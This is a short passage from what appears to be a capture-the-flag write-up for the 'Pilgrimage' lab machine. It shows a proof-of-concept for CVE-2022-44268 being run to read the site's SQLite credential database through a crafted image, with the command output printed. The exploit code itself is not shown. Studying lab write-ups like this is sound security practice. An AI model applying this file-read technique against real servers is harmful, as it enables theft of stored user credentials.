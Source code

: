 <figure><img src="../../.gitbook/assets/圖片 (27).png" alt=""><figcaption></figcaption></figure>

### SQLite File

We've seen that the site stores user's credentials in the SQLite file `/var/db/pilgrimage` from the source code file `login.php`.

<figure><img src="../../.gitbook/assets/圖片 (34).png" alt=""><figcaption><p>login.php</p></figcaption></figure>

We thus get the SQLite file content via the Python script.

{% code overflow="wrap" %}
```bash
(Cmd) /var/db/pilgrimage
    Finished dev [unoptimized + debuginfo] target(s) in 0.01s
     Running `poc/target/debug/cve-2022-44268 /var/db/pilgrimage`
--2023-06-25 17:08:11--  http://pilgrimage.htb/shrunk/64986667291ed.png
Resolving pilgrimage.htb (pilgrimage.htb)... 10.129.250.151
Connecting to pilgrimage.htb (pilgrimage.htb)|10.129.250.151|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1192 (1.2K) [image/png]
Saving to: ‘res.png’

res.png               100%[========================>]   1.16K  --.-KB/s    in 0s      

2023-06-25 17:08:11 (214 MB/s) - ‘res.png’ saved [1192/1192]

```